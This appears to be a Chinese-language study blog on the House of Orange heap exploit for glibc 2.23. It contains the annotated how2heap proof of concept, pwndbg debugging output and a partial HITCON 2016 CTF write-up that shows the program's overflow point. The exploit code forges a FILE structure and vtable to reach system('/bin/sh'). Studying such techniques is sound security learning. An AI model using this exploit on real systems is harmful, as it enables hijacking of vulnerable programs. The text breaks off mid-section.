






# House of Orange 学习&复习

此漏洞适用范围：

- Glibc2.23
- 存在堆溢出漏洞：可以覆盖Top chunk。

### 0x1 [how2heap]house of orange

> 基于[how2heap-house_of_orange.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_orange.c)

The House of Orange uses an overflow in the heap to corrupt the _IO_list_all pointer,It requires a leak of the heap and the libc.

House of 🍊使用一个堆溢出来破坏`_IO_list_all`指针，其中泄漏或利用了`libc`和`heap`地址。

[Credit]( http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)

#### 代码&&注释

接下来通过代码注释讲解（原版代码基础上加了自己的理解）：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/*
  The House of Orange uses an overflow in the heap to corrupt the _IO_list_all pointer
  It requires a leak of the heap and the libc
  Credit: http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html
*/

/*
   This function is just present to emulate the scenario where
   the address of the function system is known.
*/
int winner ( char *ptr);
/*winner()是目标函数。*/

int main()
{
    /*
      The House of Orange starts with the assumption that a buffer overflow exists on the heap
      using which the Top (also called the Wilderness) chunk can be corrupted.
      
      At the beginning of execution, the entire heap is part of the Top chunk.
      
    	The first allocations are usually pieces of the Top chunk that are broken off to service the request.
      Thus, with every allocation, the Top chunks keeps getting smaller.
      And in a situation where the size of the Top chunk is smaller than the requested value,
      there are two possibilities:
       1) Extend the Top chunk
       2) Mmap a new page
      
      当我们需要分配的chunk的size大于Top chunk大小，就会发生两个事情：
      	1) 拓展Top chunk
      	2) Mmap申请匿名空间
      
			通常当我们申请的size大于0x21000（页对齐计算之后）的时候，才会去选择mmap去申请匿名空间。
      If the size requested is smaller than 0x21000, then the former is followed.
    */

    char *p1, *p2;
    size_t io_list_all, *top;

    fprintf(stderr, "The attack vector of this technique was removed by changing the behavior of malloc_printerr, "
        "which is no longer calling _IO_flush_all_lockp, in 91e7cf982d0104f0e71770f5ae8e3faf352dea9f (2.26).\n");
  
    fprintf(stderr, "Since glibc 2.24 _IO_FILE vtable are checked against a whitelist breaking this exploit,"
        "https://sourceware.org/git/?p=glibc.git;a=commit;h=db3476aff19b75c4fdefbe65fcd5f0a90588ba51\n");

    /*
      Firstly, lets allocate a chunk on the heap.
      首先，从Top chunk申请一个chunk.
    */
    p1 = malloc(0x400-16);

    /*
       The heap is usually allocated with a top chunk of size 0x21000
       在64位Linux中，通常会分配一块0x21000空间作为原始的Top chunk。
       Since we've allocate a chunk of size 0x400 already,
       由于我们已经分配了0x400的chunk了，
       what's left is 0x20c00 with the PREV_INUSE bit set => 0x20c01.
       就会剩下0x20c00，加上PREV_INUSE位，就是0x20c01。

       The heap boundaries are page aligned. Since the Top chunk is the last chunk on the heap,
       it must also be page aligned at the end.
       Top chunk作为heap的边界必须是页对齐的。

       Also, if a chunk that is adjacent to the Top chunk is to be freed,
       then it gets merged with the Top chunk. So the PREV_INUSE bit of the Top chunk is always set.
       而且，PREV_INUSE位必须被置为1.

       So that means that there are two conditions that must always be true.
       因此Top chunk 必须满足:
        1) Top chunk + size has to be page aligned
        2) Top chunk's prev_inuse bit has to be set.

       We can satisfy both of these conditions if we set the size of the Top chunk to be 0xc00 | PREV_INUSE.
       What's left is 0x20c01

       Now, let's satisfy the conditions
       1) Top chunk + size has to be page aligned
       2) Top chunk's prev_inuse bit has to be set.
    */

    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;

    /* 
       Now we request a chunk of size larger than the size of the Top chunk.
       Malloc tries to service this request by extending the Top chunk
       This forces sysmalloc to be invoked.
       当我们尝试申请一块大于Top chunk的空间，又小于mmap的阈值，就会调用sysmalloc拓展Top chunk。

       In the usual scenario, the heap looks like the following
          |------------|------------|------...----|
          |    chunk   |    chunk   | Top  ...    |
          |------------|------------|------...----|
      heap start                              heap end

       And the new area that gets allocated is contiguous to the old heap end.
       新获得的区域会从旧Top chunk向后延展，
       So the new size of the Top chunk is the sum of the old size and the newly allocated size.
       所以新大小Top chunk的大小是old size + 新分配的大小。
       In order to keep track of this change in size, malloc uses a fencepost chunk,
       which is basically a temporary chunk.

       After the size of the Top chunk has been updated, this chunk gets freed.
       当新Top chunk被更新之后，旧的Top chunk被Free进Unsorted bin.
       In our scenario however, the heap looks like
          |------------|------------|------..--|--...--|---------|
          |    chunk   |    chunk   | Top  ..  |  ...  | new Top |
          |------------|------------|------..--|--...--|---------|
     heap start                            heap end

       In this situation, the new Top will be starting from an address that is adjacent to the heap end.
       So the area between the second chunk and the heap end is unused.
       And the old Top chunk gets freed.
       Since the size of the Top chunk, when it is freed, is larger than the fastbin sizes,
       it gets added to list of unsorted bins.
       Now we request a chunk of size larger than the size of the top chunk.
       This forces sysmalloc to be invoked.
       And ultimately invokes _int_free

       Finally the heap looks like this:
          |------------|------------|------..--|--...--|---------|
          |    chunk   |    chunk   | free ..  |  ...  | new Top |
          |------------|------------|------..--|--...--|---------|
     heap start                                             new heap end


    */

    p2 = malloc(0x1000);
    /*
      Note that the above chunk will be allocated in a different page
      that gets mmapped. It will be placed after the old heap's end
      p2从新的Top chunk被分配，地址在旧的堆地址的结束。

      Now we are left with the old Top chunk that is freed and has been added into the list of unsorted bins


      Here starts phase two of the attack. We assume that we have an overflow into the old
      top chunk so we could overwrite the chunk's size.
      For the second phase we utilize this overflow again to overwrite the fd and bk pointer
      of this chunk in the unsorted bin list.
      There are two common ways to exploit the current state:
        - Get an allocation in an *arbitrary* location by setting the pointers accordingly (requires at least two allocations)
        - Use the unlinking of the chunk for an *where*-controlled write of the
          libc's main_arena unsorted-bin-list. (requires at least one allocation)

      The former attack is pretty straight forward to exploit, so we will only elaborate
      on a variant of the latter, developed by Angelboy in the blog post linked above.
      我们主要是看后一种攻击方法：
      这种攻击方式，运用到int_malloc中的检测来触发abort，从而调用刷新所有文件指针_IO_flush_all_lockp。最终，遍历_IO_list_all并对其调用_IO_OVERFLOW.
      
      The attack is pretty stunning, as it exploits the abort call itself, which
      is triggered when the libc detects any bogus state of the heap.
      Whenever abort is triggered, it will flush all the file pointers by calling
      _IO_flush_all_lockp. Eventually, walking through the linked list in
      _IO_list_all and calling _IO_OVERFLOW on them.
			
			通过fake File的指针覆盖_IO_list_all指针，使_IO_OVERLOW指向system()，并且其Fake File的前8个字节设置为"/bin/sh"，因此当调用_IO_OVERFLOW（fp，EOF）时，会转换为system("/bin/sh")。
			
      The idea is to overwrite the _IO_list_all pointer with a fake file pointer, whose
      _IO_OVERLOW points to system and whose first 8 bytes are set to '/bin/sh', so
      that calling _IO_OVERFLOW(fp, EOF) translates to system('/bin/sh').
      More about file-pointer exploitation can be found here:
      https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/

      The address of the _IO_list_all can be calculated from the fd and bk of the free chunk, as they
      currently point to the libc's main_arena.
    */

    io_list_all = top[2] + 0x9a8;

    /*
      We plan to overwrite the fd and bk pointers of the old top,
      which has now been added to the unsorted bins.
      
      通过覆盖old Top chunk的fd和bk指针来运用Unsorted bin Attack来将_IO_list_all指针被修改从而指向Unsorted bin(即bin_at(1))。

      When malloc tries to satisfy a request by splitting this free chunk
      the value at chunk->bk->fd gets overwritten with the address of the unsorted-bin-list
      in libc's main_arena.

      Note that this overwrite occurs before the sanity check and therefore, will occur in any
      case.
      
      我们需要将old Top chunk的bk设置为_IO_list_all - 0x10，从而通过Unsorted bin Attack来将_IO_list_all指向Unsorted bin(即bin_at(1))。
      
      Here, we require that chunk->bk->fd to be the value of _IO_list_all.
      So, we should set chunk->bk to be _IO_list_all - 16
    */
 
    top[3] = io_list_all - 0x10;

    /*
      At the end, the system function will be invoked with the pointer to this file pointer.
      If we fill the first 8 bytes with /bin/sh, it is equivalent to system(/bin/sh)
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    /*
      The function _IO_flush_all_lockp iterates through the file pointer linked-list
      in _IO_list_all.
      Since we can only overwrite this address with main_arena's unsorted-bin-list,
      the idea is to get control over the memory at the corresponding fd-ptr.
      在一个FILE结构体中，next file的指针在偏移量0x68的位置。由于我们的fake File在old Top chunk,而且，io_list_all已经被设置为Unsorted bin地址(即bin_at(1))，所以fake File应该被放在这个next file，从而让我们可以遍历到它，计算这个编译量，发现我们需要把old Top chunk放到Small Bin[4] <==> bin_at(6),其size位置需要被设置为0x61。
      The address of the next file pointer is located at base_address+0x68.
      This corresponds to smallbin-4, which holds all the smallbins of
      sizes between 90 and 98. For further information about the libc's bin organisation
      see: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/

      Since we overflow the old top chunk, we also control it's size field.
      Here it gets a little bit tricky, currently the old top chunk is in the
      unsortedbin list. For each allocation, malloc tries to serve the chunks
      in this list first, therefore, iterates over the list.
      Furthermore, it will sort all non-fitting chunks into the corresponding bins.
      If we set the size to 0x61 (97) (prev_inuse bit has to be set)
      and trigger an non fitting smaller allocation, malloc will sort the old chunk into the
      smallbin-4. Since this bin is currently empty the old top chunk will be the new head,
      therefore, occupying the smallbin[4] location in the main_arena and
      eventually representing the fake file pointer's fd-ptr.
      通过一次不合适大小的malloc操作，可以将已经被修改为0x61的old Top chunk放进Small Bin。
      而malloc并没有结束，会通过old Top chunk->bk检查下一个"chunk"，由于下一个"chunk"是io_list_all-10，所以检测size，小于MINSIZE "size <= 2 * SIZE_SZ"，触发abort。拿到shell。

      In addition to sorting, malloc will also perform certain size checks on them,
      so after sorting the old top chunk and following the bogus fd pointer
      to _IO_list_all, it will check the corresponding size field, detect
      that the size is smaller than MINSIZE "size <= 2 * SIZE_SZ"
      and finally triggering the abort call that gets our chain rolling.
      Here is the corresponding code in the libc:
      https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#3717
    */

    top[1] = 0x61;

    /*
      Now comes the part where we satisfy the constraints on the fake file pointer
      required by the function _IO_flush_all_lockp and tested here:
      https://code.woboq.org/userspace/glibc/libio/genops.c.html#813
      
      现在我们需要构造fake File。

      We want to satisfy the first condition:
      fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base
    */

    FILE *fp = (FILE *) top;


    /*
      1. Set mode to 0: fp->_mode <= 0
    */

    fp->_mode = 0; // top+0xc0


    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28


    /*
      最后需要设置vtables让_IO_OVERFLOW指向system()。
      4) Finally set the jump table to controlled memory and place system there.
      The jump table pointer is right after the FILE struct:
      base_address+sizeof(FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
    */

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8


  	//通过一次不适当大小的申请的malloc来触发Unsrted bin Attack 和 abort
    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

#### 关键点调试

```c
 ► 47     p1 = malloc(0x400-16);
```

此时是第一次分配，开辟了`0x21000`的空间，可以看到页对齐的两个chunk。

```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x401000 r-xp     1000 0      /home/mech0n/how2heap-master/glibc_2.25/house_of_orange
          0x600000           0x601000 r--p     1000 0      /home/mech0n/how2heap-master/glibc_2.25/house_of_orange
          0x601000           0x602000 rw-p     1000 1000   /home/mech0n/how2heap-master/glibc_2.25/house_of_orange
          0x602000           0x623000 rw-p    21000 0      [heap]
    0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dcd000     0x7ffff7dd1000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd1000     0x7ffff7dd3000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd3000     0x7ffff7dd7000 rw-p     4000 0
    0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7feb000     0x7ffff7fee000 rw-p     3000 0
    0x7ffff7ff8000     0x7ffff7ffa000 r--p     2000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]

pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x602000
Size: 0x401

Top chunk | PREV_INUSE
Addr: 0x602400
Size: 0x20c01

pwndbg>
```

接下来是修改Top chunk为`0xc01`：

```c
  ► 73     top[1] = 0xc01;
```

```shell
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x602000
Size: 0x401

Top chunk | PREV_INUSE
Addr: 0x602400
Size: 0xc01
```

然后申请新的Top chunk,旧Top chunk被放进Unsorted Bin。

```c
 ► 119     p2 = malloc(0x1000);
```

```shell
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x602000
Size: 0x401

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x602400
Size: 0xbe1
fd: 0x7ffff7dd1b78
bk: 0x7ffff7dd1b78

Allocated chunk
Addr: 0x602fe0
Size: 0x10

Allocated chunk | PREV_INUSE
Addr: 0x602ff0
Size: 0x11

Allocated chunk
Addr: 0x603000
Size: 0x00

pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x602400 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602400
smallbins
empty
largebins
empty
pwndbg>
```

最后修改完Top chunk,构造好Fake FILE:

```c
 ► 254     malloc(10);
```

malloc()前：

```shell
pwndbg> p *((struct _IO_FILE_plus*) 0x602400)
$1 = {
  file = {
    _flags = 1852400175,
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>,
    _IO_read_end = 0x7ffff7dd1b78 <main_arena+88> "\020@b",
    _IO_read_base = 0x7ffff7dd2510 "",
    _IO_write_base = 0x2 <error: Cannot access memory at address 0x2>,
    _IO_write_ptr = 0x3 <error: Cannot access memory at address 0x3>,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x0,
    _fileno = 0,
    _flags2 = 0,
    _old_offset = 4196239,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x0,
    _offset = 0,
    _codecvt = 0x0,
    _wide_data = 0x0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x602460
}
```

后：



### 0x2 HITCON-2016-House of orange

> 基于[HITCON CTF Qual 2016 - House of Orange Write up](https://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)

简单分析一下程序:



常规的菜单程序，

1.在Build the house中：

可以新建一个如下数据结构，但是只能新建4次：

```c
struct orange{
  int price ;
  int color ;
};

struct house {
  struct orange *org;
  char *name ;
};
```

2.在See the house中：

会检测`color`是否为Build the house指定的数值，如果通过检测，就会输出`name`和`price`。

3.Upgrade the house中(这里我们也只能update三次)：**溢出点**

```c
int edit()
{
  _DWORD *price; // rbx
  unsigned int len; // [rsp+8h] [rbp-18h]
  signed int color; // [rsp+Ch] [rbp-14h]

  if ( edit_count > 2u )
    return puts("You can't upgrade more");
  if ( !BSS_ptr )
    return puts("No such house !");
  printf("Length of name :");
  len = get_int();
  if ( len > 0x1000 )
    len = 0x1000;
  printf("Name:");
  myread((void *)BSS_ptr[1], len);              // overflow
  printf("Price of Orange: ");
  price = (_DWORD *)*BSS_ptr;
  *price = get_int();
  Pcolor();
  printf("Color of Orange: ");
  color = get_int();
  if ( color != 0xDDAA && (color <= 0 || color > 7) )
  {
    puts("No such color");
    exit(1);
  }
  if ( color == 0xDDAA )
    *(_DWORD *)(*BSS_ptr + 4LL) = 0xDDAA;
  else
    *(_DWORD *)(*BSS_ptr + 4LL) = color + 30;
  ++edit_count;
  return puts("Finish");
}
```

可以看到，如果我们在Build the house中设置的name的长度和[Line 12]中输入的不一样，我们就可以实现堆溢出。

#### 思路

首先House of Force是不能使用的，因为我们最多只能申请`0x1000`的空间，即使修改了Top Chunk为特别大的数，我们没办法申请到malloc_hook的位置。

然后，Angelboy提到了如下利用思路：

通过在`sysmalloc`中使用`_int_free`在堆上创建一个空闲块，然后使用Unsorted bin Attack 覆盖libc中的`_IO_list_all`以控制PC。

##### 1) 修改Top Chunk

想在`sysmalloc`中使用`__int_free`，所以我们必须首先覆盖Top chunk的`size`来触发`sysmalloc`。

- `Trigger sysmalloc`：如果Top chunk的size不够大，将使用`sysmalloc`分配新的内存空间。这样将会先拓展旧堆的size或mmap一个新的匿名空间。 我们必须分配小于`mmp_.mmap_threshold`的大小来选择前者。

- `Trigger _int_free in sysmalloc`：

  我们需要在`sysmalloc`中通过以下检测才能成功`_int_free`：

  ```c
  assert ((old_top == initial_top (av) && old_size == 0) ||
    ((unsigned long) (old_size) >= MINSIZE &&
     prev_inuse (old_top) &&
     ((unsigned long) old_end & (pagesize - 1)) == 0));
  assert ((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));
  ```

  所以Top Chunk需要满足一下条件：

  - <小于`need size + MINSIZE`
  - 大于`MINSIZE(0x10)`
  - prev inuse被设置。
  - `old_top + oldsize` 必须页对齐。

  > For example, if the top address is `0x6030d0` and the size is `0x20f31`, we should overwrite the size with `0xf31` to bypass the assertion and then allocate a large chunk to trigger the `sysmalloc` and `_int_free`. Finally, we could get an unsorted bin chunk on the heap.

##### 2) Leak Heap && Libc

当我们在Unsorted Bin中切割`Top chunk`时，剩余的`chunk`由于仍然大于Small Bin的范围，被放到了LargeBin。所以可以通过这个Chunk来泄漏libc和heap。

##### 3) Abort routine

运用到`int_malloc`中的检测来触发`abort`，从而调用刷新所有文件指针`_IO_flush_all_lockp`。最终，遍历`_IO_list_all`并对其调用`_IO_OVERFLOW`。

> `Abort routine`: When the glibc detects some memory corruption problem, it would enter the abort routine. [(source)](http://osxr.org:8080/glibc/source/stdlib/abort.c#0050) It would flush all streams in the stage one. In other words, it would enter the `_IO_flush_all_lockp` [(source)](http://osxr.org:8080/glibc/source/libio/genops.c#0821) function and use the `_IO_FILE` object, which is called `_IO_list_all` in it. If we overwrite the pointer and forge the object, then we could control the flow. Because the `_IO_FILE` uses virtual function table called `_IO_jump_t`[(source)](http://osxr.org:8080/glibc/source/libio/libioP.h#0290) to do something, we can forge it. You can reference [this article](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)



在`Abort`中，我们首先会按照在how2heap中提到的方法在Old Top Chunk的剩余部分处伪造fake File，其中为了触发Unsorted Bin Attack，需要在`bk`处设置为`_IO_list_all - 0x10`。

首先，从程序运行的角度，我们会首先`malloc`一个不合适的大小，这样`malloc()`会一路检测到Unsorted Bin，

由于在检测Unsorted Bin的时候一会先将某Chunk拿出Unsorted Bin：

```c
  /* remove from unsorted list */
  unsorted_chunks (av)->bk = bck;
  bck->fd = unsorted_chunks (av);
```

